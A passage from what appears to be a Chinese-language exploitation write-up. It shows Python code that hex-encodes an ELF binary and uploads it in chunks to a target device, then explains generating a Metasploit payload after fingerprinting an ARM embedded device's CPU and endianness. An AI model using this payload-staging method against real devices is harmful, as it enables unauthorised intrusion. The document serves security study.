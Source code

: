 ```plain
target = sys.argv[1]
file_path = sys.argv[2]

with open(file_path, 'rb') as file:
    elf_data = file.read()

hex_string = ''.join(['\\x{:02x}'.format(byte) for byte in elf_data])

hex_string_len = len(hex_string)
print(hex_string_len)

# 动态设置 Host 字段
headers['Host'] = urllib.parse.urlparse(target).netloc

i = 0
for chunk in read_string(hex_string, chunk_size=120):
    result = sendPayload(target, chunk)
    if not result:
        print('send again')
        result = sendPayload(target, chunk)
    if result:
        print(str(i) + '/' + str(hex_string_len))
        i += 120
    else:
        print('Request failed.')
        sys.exit(1)

print('Over')
```

#### 1) 生成 Payload 文件

直接使用 `MSF`  进行生成，我们需要知道 CPU 架构、32 还是 64 位处理器、大端还是小端

类似 `arch`、`lscpu` 这些命令在当前环境中都没有，可以通过下面的命令进行查看

```plain
cat /proc/cpuinfo
```

![图片](assets/1710993392-37d80127b73f829661c0d17b431e0b18.svg)

可以看到 CPU 为 `ARM926EJ-S rev 5 (v5l)` ，经过查询是一款 ARM 架构，32 位的 CPU

大小端这个事我们可以从服务器上下载几个可执行文件，看看它们是大端还是小端的

以 `/bin/da_info` 和 `/bin/busybox` 为例

![图片](assets/1710993392-37d80127b73f829661c0d17b431e0b18.svg)

![图片](assets/1710993392-37d80127b73f829661c0d17b431e0b18.svg)
